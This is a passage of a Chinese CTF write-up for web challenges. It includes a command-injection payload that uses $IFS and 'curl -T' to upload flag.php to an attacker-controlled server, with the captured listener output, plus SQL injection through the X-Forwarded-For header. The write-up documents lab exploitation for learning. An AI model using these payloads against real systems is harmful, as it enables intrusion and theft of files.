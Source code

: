 第一步没什么可说的其实，php特性，0.99999999999999就会产生小数下标溢出为1。

然后是第二部步，在shell中`$IFS`会被解释为空格，这样就可以巧妙绕过trim的过滤，这样我们就可以使用任意curl命令了，但是尝试了很多办法都和直接访问flag.php是相同的，但是curl可以使用-T来把本地文件上传到ftp服务器，那么我们可以构造向我们的服务器上传文件，这样就可以get flag.php这个文件

payload:
```
ttp://106.75.32.87:16888/index.php?num=0.99999999999999999999999999999999999&cmd=$IFS-T flag.php -a http://xxxx:xx

```
这里的xxxx就是你自己服务器地址，然后再服务器监听xx端口，就可以看到了
```
root@iZ285ei82c1Z:/home/wwwroot/default/test# nc -lvv 20
Listening on [0.0.0.0] (family 0, port 20)
Connection from [106.75.32.87] port 20 [tcp/ftp-data] accepted (family 2, sport 44712)
PUT /flag.php HTTP/1.1
User-Agent: curl/7.35.0
Host: 115.28.78.16:20
Accept: */*
Content-Length: 116
Expect: 100-continue

<?php
echo "Yep,Flag is here,But u cant look in here!";
//flag is here!
//flag{2984bce1807c46879cb80995c7003109}
?>

```

## web300 SQL ##

打开发现登陆和改名的地方都有注入，但是waf比较迷，数据库也不知道，所以第一天完全没有任何思路，给的提示也是迷迷糊糊的，第一天晚上扫目录的时候获得了一个比较重要的信息，在web根目录下存在2.txt log日志(怎么会有这种名字的日志。。。)...

得到了sql语句
```
update userinfo set user='ssss',lasetloginip='111.111.111.111' where utoken='xxxxxxxxx'
```
那么就是xff注入了，构造post请求为
```
user=,info='127.0.0.1
```
修改xff为
```
114.246.76.88',user=DLOOKUP('flag', 'ctf'),email=
```
这里的dlookup真的是找了好久才知道，由于不熟悉access数据库，access数据库中不能直接代入子查询，需要inner join，但是inner join必须在set前...踩了不熟悉的坑..哎...

## web400 phpup ##

打开首先看看文章，文章里提到有admin的登陆界面，偶然发现有个admin的js，按home键就会出现登陆界面，顺藤摸瓜找到一个登陆接口，这个接口开着报错而且没有任何过滤，除了不能回显以外什么都可以，那么sqlmap都可以跑...
